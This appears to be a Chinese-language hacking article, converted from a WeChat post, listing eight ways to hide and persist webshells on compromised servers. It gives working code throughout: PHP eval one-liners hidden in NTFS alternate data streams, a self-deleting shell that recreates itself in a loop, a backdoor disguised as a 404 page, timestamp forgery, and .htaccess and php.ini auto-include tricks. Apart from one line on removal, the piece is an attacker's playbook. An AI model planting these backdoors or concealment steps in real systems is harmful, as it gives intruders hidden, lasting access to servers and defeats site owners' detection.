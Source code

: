 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/UqmN\_b4EXewCN7WPei14\_A)

如果想让自己的 Webshell 留的更久一些，除了 Webshell 要免杀，还需要注意一些隐藏技巧，比如隐藏文件，修改时间属性，隐藏文件内容等。

**1、隐藏文件**

使用 Attrib +s +a +h +r 命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

```
attrib +s +a +h +r shell.php   //隐藏shell.php文件

```

**2、修改文件时间属性**

当你试图在一堆文件中隐藏自己新创建的文件，那么，除了创建一个迷惑性的文件名，还需要修改文件的修改日期。

```
//修改时间修改
Set-ItemProperty -Path 2.txt LastWriteTime -Value "2020-11-01 12:12:12"
//访问时间修改
Set-ItemProperty -Path 2.txt LastAccessTime -Value "2020-11-01 12:12:12"
//创建时间修改
Set-ItemProperty -Path 2.txt CreationTime -Value "2020-11-01 12:12:12"

```

使用命令获取文件属性

```
Get-ItemProperty -Path D:\\1.dll | Format-list -Property \* -Force

```

修改某个文件夹下所有文件的创建和修改时间

```
powershell.exe -command "ls 'upload\\\*.\*' | foreach-object { $\_.LastWriteTime =  Get-Date ; $\_.CreationTime = '2018/01/01 19:00:00' }"

```

**3、利用 ADS 隐藏文件内容**

在服务器上 echo 一个数据流文件进去，比如 index.php 是网页正常文件，我们可以这样子搞：　

```
echo ^<?php @eval($\_POST\['chopper'\]);?^> > index.php:hidden.jpg

```

这样子就生成了一个不可见的 shell hidden.jpg，常规的文件管理器、type 命令，dir 命令、del 命令发现都找不出那个 hidden.jpg 的。

利用 include 函数，将 index.php:hidden.jpg 进行 hex 编码，把这个 ADS 文件 include 进去，这样子就可以正常解析我们的一句话了。

```
<?php @include(PACK('H\*','696E6465782E7068703A68696464656E2E6A7067'));?>

```

**4、不死马**

不死马会删除自身，以进程的形式循环创建隐蔽的后门。

```
<?php
set\_time\_limit(0);  
ignore\_user\_abort(1); 
unlink(\_\_FILE\_\_);     //删除自身
while(1)
{    
    file\_put\_contents('shell.php','<?php @eval($\_GET\[cmd\]);?>');  //创建shell.php，这里最好用免杀的一句话
    sleep(10);    //间隔时间
}
?>

```

处理方式最简单有效的办法，就是重启服务就可以删除 webshell 文件。

**5、中间件后门**

将编译好的 so 文件复制到 modules 文件夹，启动后门模块，重启 Apache。当发送特定参数的字符串过去时，即可触发后门。

github 项目地址：

```
https://github.com/VladRico/apache2\_BackdoorMod

```

**6、利用 404 页面隐藏后门**

404 页面主要用来提升用户体验，可用来隐藏后门文件。

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
<?php
@preg\_replace("/\[pageerror\]/e",$\_POST\['error'\],"saft");
header('HTTP/1.1 404 Not Found');
?>

```

**7、利用 .htaccess 文件构成 PHP 后门**

一般. htaccess 可以用来留后门和针对黑名单绕过，在上传目录创建. htaccess 文件写入，无需重启即可生效，上传 png 文件解析。

```
AddType application/x-httpd-php .png

```

另外，在. htaccess 加入 php 解析规则，把文件名包含 1 的解析成 php，上传 1.txt 即可解析。

```
<FilesMatch "1"> 
SetHandler application/x-httpd-php 
</FilesMatch>

```

**8、利用 php.ini 隐藏后门文件**

php.ini 中可以指定在主文件执行前后自动解析的文件名称，常用于页面公共头部和尾部，也可以用来隐藏 php 后门。

```
；在PHP文档之前自动添加文件。
auto\_prepend\_file = "c:\\tmp.txt"
;在PHP文档之后自动添加文件。
auto\_prepend\_file = "c:\\tmp.txt"

```

需重启服务生效，访问任意一个 php 文件即可获取 webshell。